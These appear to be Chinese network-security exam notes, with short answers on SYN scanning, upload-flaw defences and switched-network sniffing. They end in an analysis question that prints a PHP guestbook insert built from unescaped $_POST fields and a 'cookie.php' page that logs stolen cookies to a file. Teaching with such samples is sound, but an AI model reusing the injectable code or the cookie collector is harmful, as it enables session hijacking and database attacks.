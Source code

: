 # 简答题

### 请简要叙述`TCP SYN Ping`主机扫描的特点

答：该方式发送`SYN`到目标端口，如果收到`SYN/ACK`回复，那么判断端口是**开放的**；如果收到`RST`包，说明该端口是**关闭的**。如果**没有收到**回复，那么判断该端口**被屏蔽**。因为该方式仅发送`SYN`包对目标主机的特定端口，但**不建立的完整的TCP连接**，所以相对比较隐蔽，而且效率比较高，适用范围广。

### 简述上传漏洞的防御方法

1. 检查文件上传路径 ( 避免`0x00`截断、`IIS6.0`文件夹解析漏洞、目录遍历 )

2. 文件扩展名检测 ( 避免服务器以非图片的文件格式解析文件 )，验证文件扩展名通常有两种方式 : 黑名单和白名单 

3. 文件`MIME`验证 ( 比如`GIF`图片`MIME`为`image/gif`，`CSS`文件的`MIME`为`text/css`等 ) 
4. 文件内容检测 ( 避免图片中插入`webshell`)
5. 图片二次渲染 ( 最变态的上传漏洞防御方式 , 基本上完全避免了文件上传漏洞 )

6. 文件重命名 ( 如随机字符串或时间戳等方式 , 防止攻击者得到`webshell`的路径 )

7. 隐藏上传路径（一样用于复制得到`webshell`的路径）
8. 上传文件的存储位置与服务器分离

### 请简述交换式网络中嗅探攻击有哪几种？

答：**MAC洪水**（MAC Flooding）、**MAC复制**（MAC Duplicating）、**ARP欺骗**——使用最多

## 分析题

### 1. 请分析下面的代码，并回答问题

某网站保存留言页面`saveleaveword.php`的部分内容如下：

```php
……
    if(mysqli_query($conn,"insert into tb_leaveword(userid,createtime,title,content)values('$userid','$createtime','".$_POST['title']."','".$_POST['content']."')"))
    {
        echo "<script>alert('留言发表成功!');history.back();</script>";
    }
    else
    {
        echo "<script>alert('留言发表失败!');history.back();</script>";
    }
……
```

`list`构造了一个`cookie.php`页面，代码如下：

```php
<?php
    $cookie=$_GET['cookie'];
	$log=fopen("cookie.txt","a+");
	fwrite($log,$cookie."next\n\r");
	fclose($log);
?>
```
